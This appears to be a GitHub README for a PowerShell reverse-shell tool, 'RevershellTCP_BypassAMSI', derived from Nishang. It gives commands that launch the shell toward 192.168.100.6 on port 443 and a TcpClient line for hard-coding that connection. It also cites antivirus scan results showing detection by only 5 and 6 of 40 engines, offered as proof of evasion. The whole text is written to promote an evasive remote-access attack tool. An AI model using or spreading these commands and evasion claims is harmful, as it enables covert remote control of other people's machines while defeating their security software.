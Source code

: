 # RevershellTCP_BypassAMSI

This script is based on Nishang's, thanks for sharing<br>

## Rrshell.ps1

```sh
. .\ .\rshell.ps1 192.168.100.6 443
```
![image](https://user-images.githubusercontent.com/66162160/163723667-0e4ff036-e469-4d8e-b6ac-919344bb7e0b.png)


## If you want to modify the connection automatically with no arguments just modify line 1 as follows.

$servidor = new-object System.Net.Sockets.TcpClient('192.168.100.6',443);  <br>

## Bypass 05/40 AV 

https://kleenscan.com/scan_result/4789bcc1351d6c4ded38b058fc8696bac69204dc4866f404310b14d0d2fcbd04

![image](https://user-images.githubusercontent.com/66162160/163724011-54d3413f-6b90-43fd-9632-6e77764b1cb2.png)

## Invoke-rshell.ps1

![image](https://user-images.githubusercontent.com/66162160/163725207-c6303bc6-2a82-4928-9ab0-9b373a4b7ff7.png)

```sh
. .\Invoke-rshell.ps1
 Invoke-rshell -Reverse -IP 192.168.100.6 -Port 443
 ```
 
 ## Bypass 06/40 AV 
 
 https://kleenscan.com/scan_result/a97aea202537ca78fbf4cb610eec57d1e6cc5a310e3be0ff63690cd482d5519d
 
 ![image](https://user-images.githubusercontent.com/66162160/163725249-92cae09a-974a-4637-9b82-f721cbab4915.png)
